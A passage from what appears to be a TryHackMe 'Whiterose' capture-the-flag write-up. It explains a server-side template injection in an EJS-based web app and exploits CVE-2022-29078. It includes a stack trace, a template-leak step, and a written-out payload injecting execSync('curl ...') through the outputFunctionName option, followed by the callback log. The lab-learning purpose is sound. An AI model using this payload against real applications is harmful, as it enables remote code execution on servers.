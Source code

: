 ```ad-note
`TypeError: /home/web/app/views/settings.ejs:4<br>    2\| <html lang="en"><br>    3\|   <head><br> >> 4\|     <%- include("../components/head"); %><br>    5\|     <title>Cyprus National Bank</title><br>    6\|   </head><br>    7\|   <body><br>
include is not a function
<br>    at eval ("/home/web/app/views/settings.ejs":12:17)<br>    at settings (/home/web/app/node_modules/ejs/lib/ejs.js:692:17)<br>    at tryHandleCache (/home/web/app/node_modules/ejs/lib/ejs.js:272:36)<br>    at View.exports.renderFile [as engine] (/home/web/app/node_modules/ejs/lib/ejs.js:489:10)<br>    at View.render (/home/web/app/node_modules/express/lib/view.js:135:8)<br>    at tryRender (/home/web/app/node_modules/express/lib/application.js:657:10)<br>    at Function.render (/home/web/app/node_modules/express/lib/application.js:609:3)<br>    at ServerResponse.render (/home/web/app/node_modules/express/lib/response.js:1039:7)<br>    a/home/web/app/routes/settings.js:27:7    at runMicrotasks (<anonymous>)`
```

And when we use the `async` parameter, we simply receive `{}` in the response.

[![Web 80 Admin Settings Five](https://jaxafed.github.io/images/tryhackme_whiterose/web_80_admin_settings5.webp)](https://jaxafed.github.io/images/tryhackme_whiterose/web_80_admin_settings5.webp)

From the error, we learn that the application uses **EJS** as a template engine. If the application directly passes our request body to the `render` function as the `data` argument, this could lead to an **SSTI** vulnerability. This is because **EJS** allows certain options, such as `client` and `async`, to be included in the same argument as the data. Notably, the fact that the `client` option causes an error and using the `async` option results in the server responding with only `{}` suggests that this might be the case here.

We can try to confirm this by using the `delimiter` option, which is also one of the options allowed to be passed along with data. By default, it is set to `%`. If we change it to a string that does not exist in the template, we should be able to leak the template.

Testing our theory, we find that we are correct, as we successfully leak the template.

[![Web 80 Admin Settings Six](https://jaxafed.github.io/images/tryhackme_whiterose/web_80_admin_settings6.webp)](https://jaxafed.github.io/images/tryhackme_whiterose/web_80_admin_settings6.webp)

As I mentioned before, there are only a limited number of options allowed to be passed along with data. However, this is where the `CVE-2022-29078` vulnerability comes into play. By using the `settings['view options']` parameter, we are able to pass any option without limitation.

And there are certain options, like `outputFunctionName`, that are used by **EJS** without any filtration to build the template body, allowing us to inject code it.

You can find more information about the vulnerability and the **PoC** [here in this article](https://eslam.io/posts/ejs-server-side-template-injection-rce/).

Testing the **PoC** payload from the article, we find that it works, as we receive a request on our server.

`settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl 10.11.72.22');s|`

[![Web 80 Admin Settings Seven](https://jaxafed.github.io/images/tryhackme_whiterose/web_80_admin_settings7.webp)](https://jaxafed.github.io/images/tryhackme_whiterose/web_80_admin_settings7.webp)

```ad-hint
`10.10.116.77 - - [31/Oct/2024 05:03:44] 
"GET / HTTP/1.1" 200 10.10.116.77 - - [31/Oct/2024 05:03:44] "GET / HTTP/1.1" 200 
10.10.116.77 - - [31/Oct/2024 05:03:45] "GET / HTTP/1.1" 200 -|`
```
